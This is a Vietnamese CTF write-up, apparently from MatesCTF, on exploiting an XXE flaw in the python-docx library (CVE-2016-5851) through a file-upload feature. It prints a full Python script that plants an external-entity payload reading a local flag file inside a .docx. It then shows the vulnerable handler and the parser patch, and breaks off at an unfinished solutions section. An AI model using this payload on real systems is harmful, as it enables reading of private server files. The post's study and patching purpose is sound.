 ```yaml
---
title: "Matesctf final 2 - XXE Injection"
date: 2018-09-08T09:46:55+07:00
author: "Kev"
comments: true
tags: ["ctf", "flask"]
draft: false
---
```


{{< figure src="/images/uploads/ex50-7.png" >}}

## EXPLOIT - [source](/resources/matesctf/ex50.tar) 
<hr>
Mình nhận thấy lỗi này đầu tiên, mình tưởng đây là LFI cơ, vì cho mình đọc nội dung của cái gì đó (trên hình) và download file nữa. {{<emoji lol>}}

```
python-docx is a Python library for creating and updating Microsoft Word (.docx) files.
```

`Docx` là thư viện sử dụng để xử lý file word. Cũng dễ hiểu đây là lỗi vì không cớ gì mà tác giả lại xử lý file word ở đây cả, chức năng upload và hiển thị nội dung file bình thường thì tại sao lại xử lý file docx làm gì. Sau khi tìm hiểu thì mình tìm được CVE của [docx](https://www.cvedetails.com/cve/CVE-2016-5851/). Tìm hiểu thêm thì đã có exploit sẵn, cụ thể mình cần tạo 1 file docx bất kì rồi chạy payload bên dưới, nhúng nội dung XML vào cuối file word đấy:

{{<highlight python>}}
import docx
import zipfile
import tempfile
import os

# define malicious XML
xml_string = '''<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE w:document [
  <!ENTITY xxe SYSTEM "file:///home/ctf/ex50/flag" >
]>
<w:document xmlns:o="urn:schemas-microsoft-com:office:office"
xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships"
xmlns:v="urn:schemas-microsoft-com:vml"
xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main"
xmlns:w10="urn:schemas-microsoft-com:office:word"
xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing">
<w:body>
<w:p>
<w:pPr>
<w:pStyle w:val="Normal" />
<w:rPr></w:rPr>
</w:pPr>
<w:r>
<w:rPr></w:rPr>
<w:t>
Pierre Ernst, Salesforce --[&xxe;]--
</w:t>
</w:r>
</w:p>
<w:p>
<w:pPr>
<w:pStyle w:val="Normal" />
<w:rPr></w:rPr>
</w:pPr>
<w:r>
<w:rPr></w:rPr>
<w:t></w:t>
</w:r>
</w:p>
<w:sectPr>
<w:type w:val="nextPage" />
<w:pgSz w:w="12240" w:h="15840" />
<w:pgMar w:left="1134" w:right="1134" w:header="0" w:top="1134"
w:footer="0" w:bottom="1134" w:gutter="0" />
<w:pgNumType w:fmt="decimal" />
<w:formProt w:val="false" />
<w:textDirection w:val="lrTb" />
</w:sectPr>
</w:body>
</w:document>'''

# source: http://stackoverflow.com/questions/25738523/how-to-update-one-file-inside-zip-file-using-python
def updateZip(zipname, filename, data):
    # generate a temp file
    tmpfd, tmpname = tempfile.mkstemp(dir=os.path.dirname(zipname))
    os.close(tmpfd)

    # create a temp copy of the archive without filename
    with zipfile.ZipFile(zipname, 'r') as zin:
        with zipfile.ZipFile(tmpname, 'w') as zout:
            for item in zin.infolist():
                if item.filename != filename:
                    zout.writestr(item, zin.read(item.filename))

    # replace with the temp archive
    os.remove(zipname)
    os.rename(tmpname, zipname)

    # now add filename with its new data
    with zipfile.ZipFile(zipname, mode='a',
compression=zipfile.ZIP_DEFLATED) as zf:
        zf.writestr(filename, data)

# update legit docx file with malicious XML
updateZip('whatever.docx', 'word/document.xml', xml_string)

# process with python-docx
document = docx.Document('whatever.docx')
print '\n\n'.join([paragraph.text for paragraph in document.paragraphs])
{{</highlight>}}

Tại sao lại nén zip? Vì bản chất file docx là 1 file nén chứa nhiều file xml bên trong. Sau khi chạy payload thì đoạn xml đã được chèn vào file document.xml

{{< figure src="/images/uploads/ex50-8.png">}}

Vậy là upload bằng cách create exercise và view exercise, ta nhận được flag.

{{< figure src="/images/uploads/ex50-9.png">}}

Truy ra nguồn gốc của lỗi này thì do 1 func xử lý exercises đã parse file .docx và lấy nội dung lưu vào database

{{<highlight python>}}
try:
   document = docx.Document(os.path.join(UPLOAD_FOLDER_EX, filename))
   content = '\n\n'.join([paragraph.text for paragraph in document.paragraphs])
except:
   content = "Cannot get content"
Exercises.insert({"name": name, "file_path": file_path,"date":date,"uploader":session['usn'],"content":content})
{{</highlight>}}

Nhờ một thời gian phân tích 1-day nhiều dạng, mình rút ra được cách fix lỗi nhanh nhất là đi tìm bản patch từ nhà cung cấp và đọc xem họ fix như thế nào, như thế sẽ nhanh hơn là tự suy nghĩ cách vá. Các bạn có thể xem bản vá trên [github](https://github.com/python-openxml/python-docx/pull/303/commits/14a44178711cbd860b910f8950f9946addfc5e57). Họ disable XML entity, đây là cách vá hay nhất mà mình biết.

Bước đầu tiên là phải tìm ra được file thư viện nằm ở vị trí nào trên server của mình

{{<highlight bash>}}
$ python -c "import docx; print docx.__file__"
> /usr/local/lib/python2.7/dist-packages/docx/__init__.pyc
{{</highlight>}}

Từ link github trên mình cũng biết là file cần fix là `docx/oxml/__init__.py` . Chỉ cần sửa dòng số 17 thôi là đủ

```
oxml_parser = etree.XMLParser(remove_blank_text=True,resolve_entities=False)
```

{{< figure src="/images/uploads/ex50-10.png">}}

NHƯNG, đời không như mơ đâu các bạn à !!! Chúng ta không có quyền để sửa file `__init__.py`

## SOLUTIONS
<hr>
To be continue ...

